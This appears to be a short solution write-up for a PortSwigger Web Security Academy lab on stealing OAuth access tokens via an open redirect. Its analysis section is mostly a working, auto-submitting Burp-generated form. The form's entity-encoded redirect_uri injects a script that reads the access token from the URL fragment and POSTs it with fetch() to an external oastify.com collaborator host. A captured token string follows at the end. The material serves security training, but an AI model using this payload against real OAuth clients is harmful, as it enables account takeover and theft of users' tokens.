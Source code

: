 # [Lab: Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## Lab

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

```text
Note
You cannot access the admin's API key by simply logging in to their account on the client application.
```

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`.

## Analysis


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0af100a50369eac4c27b057e02d00068.web-security-academy.net/auth">
      <input type="hidden" name="client&#95;id" value="ormdsztpqjms7ew7gfe49" />
      <input type="hidden" name="redirect&#95;uri" value="https&#58;&#47;&#47;0a4c005503d1ea1cc26e07a7009d0079&#46;web&#45;security&#45;academy&#46;net&#47;oauth&#45;callback&#47;&#46;&#46;&#47;post&#47;comment&#47;confirmation&#63;postId&#61;&quot;&gt;&lt;&#47;a&gt;&lt;script&gt;const&#32;urlSearchParams&#32;&#61;&#32;new&#32;URLSearchParams&#40;window&#46;location&#46;hash&#46;substr&#40;1&#41;&#41;&#59;const&#32;token&#32;&#61;&#32;urlSearchParams&#46;get&#40;&apos;access&#95;token&apos;&#41;&#59;fetch&#40;&apos;https&#58;&#47;&#47;9oyad8voa8g85j0hm22sbd9gw72yquej&#46;oastify&#46;com&apos;&#44;&#123;method&#58;&apos;POST&apos;&#44;mode&#58;&#32;&apos;no&#45;cors&apos;&#44;body&#58;&#32;token&#125;&#41;&#59;&lt;&#47;script&gt;" />
      <input type="hidden" name="response&#95;type" value="token" />
      <input type="hidden" name="nonce" value="1976118293" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

QJpqUup56Ru_rPByWyvJGTYx9Ie_9xiqm0n743sUQUO